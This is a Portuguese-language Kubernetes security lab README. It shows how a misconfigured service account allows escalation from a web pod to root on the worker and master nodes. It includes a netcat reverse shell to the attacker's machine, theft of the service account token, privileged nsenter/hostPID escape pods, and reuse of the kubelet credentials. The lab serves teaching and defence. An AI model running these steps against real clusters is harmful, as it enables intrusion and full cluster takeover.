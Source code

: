 # Kubernetes é seguro por default ou à prova de má configuração?

# Lab + explicação:

Para montar nosso lab vamos precisar de um cluster kubernetes, pode ser até no kind ou minikube.

**Não executar esse lab em um cluster produtivo** 

Primeiro vamos criar nosso namespace, pod, service account e roles:

```
kubectl create ns production

kubectl create sa web-app-sa -n production

kubectl create role web-app-role -n production --verb=get,list,create --resource=pods,pods/exec

kubectl create rolebinding binding-role-app --serviceaccount=production:web-app-sa --role=web-app-role -n production

kubectl run web-app --image=p0ssuidao/vulne-pod-lab:01 --serviceaccount=web-app-role -n production

kubectl expose pod -n production web-app --port=8080 --target-port=8080 --type=NodePort --name=web-app-role

```

```
kubectl get no -o wide 
kubectl get svc -n production 
```
Agora basta acessar no seu navegador IP do node + Node port

User foo 
Pass bar

Agora vamos abrir a porta 32000 para receber a conexão:
```
sudo nc  -l 32000
```

Executar no terminal remoto para ganhar acesso a shell:
```
nc -e /bin/bash "IP da sua maquina" 32000
```

Primeiro identificarmos com qual usuário estamos logados:
```
id
```
A aplicação está rodando com o usuário appuser, então vamos ver quais processos estão em execução.

```
ps aux
```

Existe um número muito baixo de processos. Ter poucos processos é o primeiro indicativo que a aplicação é em um container. Por default um container roda com o usuário root mas isso pode ser alterado.
Levantaremos informações sobre o release do S.O.
```
uname -a ; cat /etc/*-release
```

Aqui há informações como a linha da distribuição GNU/Linux e versão do Kernel. Com isso já pode se iniciar a busca por exploits para a versão de kernel e baseados na distro.
Continuando a busca, listaremos as variáveis de ambiente.

```
env
```

Vamos continuar o reconhecimento para termos certeza que estamos rodando em um container. Para isso vamos utilizar a ferramenta “amicontained”, pois com ela conseguimos uma serie de informações como:

- Container Runtime.
- Existência de namespace.
- Capabilities.
- Syscalls liberadas.

```
cd /tmp; curl -fSL "https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64" -o "amicontained" \
 && chmod a+x "amicontained" \
 && ./amicontained
```

Todo pod, deploy e rs possui uma serviceaccount e por padrão são executados com a conta default. Uma serviceaccount fornece uma identidade para processos executados em um pod e nela são atrelado as rules de permissão.
As chaves e certificados ficam em um volume montado no pod.

```
cd /var/run/secrets/kubernetes.io/serviceaccount
```

Primeiro vamos ver a versão do cluster e se conseguimos interagir com a API.
```
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```

Já que conseguimos acesso a API com esse token vamos tentar listar alguns pods, de inicio vamos tentar listar no namespace em que estamos:
```
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api --header "Authorization: Bearer $TOKEN" --insecure

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api/v1/namespaces/$NS/pods/ --header "Authorization: Bearer $TOKEN" --insecure
```
Conseguimos listar os pods e isso é muito interessante. Para facilitar um pouco as coisas vamos baixar o kubectl para interagir com o cluster.
```
cd /tmp ; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.18.0/bin/linux/amd64/kubectl ; chmod +x ./kubectl
```
Listaremos os pods com o kubectl.
```
./kubectl get pod
```
Para testar nossos acessos vamos utilizar o "kubectl auth can-i"
```
./kubectl auth can-i --list

./kubectl auth can-i create pods
```

Agora vamos tentar escalar nosso privilegio sem utilizar nenhum exploit apenas conhecimento da ferramenta.

```
cd /tmp; cat > root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: root-shell
  name: root-shell
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "root-shell"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
EOF
./kubectl apply -f root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it root-shell -- bash

```
Conseguimos acesso uma máquina !  

Verificando os acessos: 

```
id

ps aux

docker ps

cat /etc/hostname

```
Nosso acesso é a um worker mas queremos chegar nos master, para isso será necessário informações sobre os demais nodes.

Como vimos nossa conta não possui permissão para listar os nodes, então vamos procurar um conta que consiga listar os nodes.
Lembrando dos componentes que fazem parte do node o kubelet possui permissão para verificar os nós ativos, vamos tentar utilizar sua configuração de autenticação para listarmos os nodes:

Vamos pegar suas config com:

```
systemctl status kubelet
```

Com a config do kubelet tentaremos listar os nodes usando o parametro --kubeconfig:

```
kubectl get no --kubeconfig=/etc/kubernetes/kubelet.conf
```

Conseguimos ! 

Agora vamos forçar o scheduler nos agendar no node master.
Mas primeiro precisamos voltar para nosso container com permissão de criação de pods.

```
exit
```

- **Nome do node Master** | Substituir pelo nome do seu nó em yml abaixo.

```
cd /tmp; cat > master-root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: master-root-shell
  name: master-root-shell
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "master-root-shell"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
  nodeName: *Nome do node Master* 
  tolerations:
  - effect: NoExecute
    operator: Exists
EOF
./kubectl apply -f master-root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it master-root-shell -- bash
```

Conseguimos acesso ao master =)
```
id

ps aux

docker ps

kubectl get no

kubectl auth can-i --list
``` 

